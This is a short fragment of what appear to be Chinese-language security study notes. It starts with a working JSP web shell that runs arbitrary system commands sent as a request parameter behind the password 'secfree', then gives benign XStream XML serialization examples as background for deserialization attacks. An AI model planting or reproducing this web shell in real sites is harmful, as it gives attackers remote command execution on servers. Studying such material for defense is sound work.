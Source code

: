 shell demo

```jsp
<![CDATA[<% if("secfree".equals(request.getParameter("password"))){ java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("command")).getInputStream(); int a = -1; byte[] b = new byte[2048]; out.print("<pre>"); while((a=in.read(b))!=-1){ out.println(new String(b)); } out.print("</pre>"); } %>]]>
```



### XStream

对于可以序列化的，会自动调用它的readObject

```xml
<test.Person serialization="custom">
  <test.Person>
    <default>
      <age>12</age>
      <name>aaa</name>
      <workCompany serialization="custom">
        <test.Company>
          <default>
            <companyLocation>beij</companyLocation>
            <companyName>aa</companyName>
          </default>
        </test.Company>
      </workCompany>
    </default>
  </test.Person>
</test.Person>
```

```xml
<test.Person serialization="custom">
  <test.Person>
    <default>
      <age>12</age>
      <name>aaa</name>
      <workCompany>
        <companyName>aa</companyName>
        <companyLocation>beij</companyLocation>
      </workCompany>
    </default>
  </test.Person>
</test.Person>
```

```java
XStream xStream = new XStream(new DomDriver());
Person aaa = new Person("aaa", 12,new Company("aa","beij"));
String s = xStream.toXML(aaa);
System.out.println(s);
Person people1 =(Person) xStream.fromXML(s);
System.out.println(people1);
```
